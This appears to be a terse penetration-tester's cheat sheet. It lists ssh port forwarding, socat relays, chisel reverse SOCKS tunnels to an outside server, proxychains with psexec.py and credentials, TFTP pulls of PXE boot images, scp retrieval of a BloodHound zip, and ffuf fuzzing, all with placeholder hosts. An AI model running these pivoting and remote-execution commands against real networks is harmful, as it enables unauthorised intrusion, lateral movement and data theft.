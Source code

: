 # Exploit DB
https://www.exploit-db.com/







# ssh
```zsh
$ ssh TestUser@XXX.XXX.XXX.XXX
$ ssh HOGE.com\\TestUser@TestHost.HOGE.com
$ ssh TestUser@XXX.XXX.XXX.XXX -R 8888:TestHost.HOGE.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

# socat
```zsh
$ socat TCP4-LISTEN:13514,fork TCP4:TestTargetHost.HOGE.com:3389
```

# chisel
```zsh
$ chisel_1.9.1_linux_amd64 server -p 8000 --reverse
PS> c:\chisel client XXX.XXX.XXX.XXX:8000 R:socks
PS> c:\chisel client XXX.XXX.XXX.XXX:8000 R:5002:socks
# sudo vim /etc/proxychains4.conf
## socks5 	127.0.0.1 5000
# proxychains4 psexec.py HOGE.COM/TestUser:TestPassword@XXX.XXX.XXX.XXX
```

# TFTP
```zsh
$ tftp -i XXX.XXX.XXX.XXX GET "\Tmp\x64{8A98E259-D569-5C1B-A098-986F5B5736FF}.bcd" conf.bcd
$ tftp -i XXX.XXX.XXX.XXX GET "\Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot.wim
```

# scp
```zsh
$ scp TestUser@HOGE.com:C:/Users/TestUser/Documents/20240518062907_BloodHound.zip .
```








# ffuf  
```zsh
$ ffuf -w -u http://XXX.XXX.XXX.XXX:RPORT/hoge/index.php?log=FUZZ
```
